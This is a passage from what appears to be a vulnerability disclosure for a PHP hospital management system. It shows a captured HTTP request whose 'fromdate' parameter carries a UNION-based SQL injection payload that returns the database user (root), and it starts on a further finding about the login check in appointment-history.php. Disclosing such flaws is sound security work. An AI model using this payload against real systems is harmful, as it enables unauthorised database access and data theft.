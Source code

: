 ```
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/change-emaild.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

fromdate=1' and 1=2 union select 1,2,user(),4,5,6,7,8,9,10,11#&todate=2
```
As shown in the figure, the current database user obtained through SQL injection is root:

![33.png](./img/33.png)


**[12]**

In \hms\admin\appointment-history.php:

![10.png](./img/10.png)

Line 6 uses the check_login function to verify that the user is logged in. In this function:

![11.png](./img/11.png)
